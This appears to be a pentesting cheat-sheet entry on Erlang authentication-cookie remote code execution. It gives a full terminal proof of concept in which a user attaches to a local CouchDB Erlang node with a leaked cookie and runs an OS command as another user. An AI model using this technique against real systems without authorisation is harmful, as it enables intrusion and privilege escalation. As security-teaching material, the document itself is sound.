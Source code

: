 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an Erlang node is leaked, then you can take advantage of this to achieve RCE.  Typically this will be via local port tcp/4369.  The following PoC connects to a local node with a cookie of cookieval, and then spawns a command on an adjacent node with the same cookie value.  If the adjacent node is run by `mainuser` then we achieve privilege escalation.

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

### Further Reading

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)

https://www.broot.ca/erlang-remsh-is-dangerous

http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html



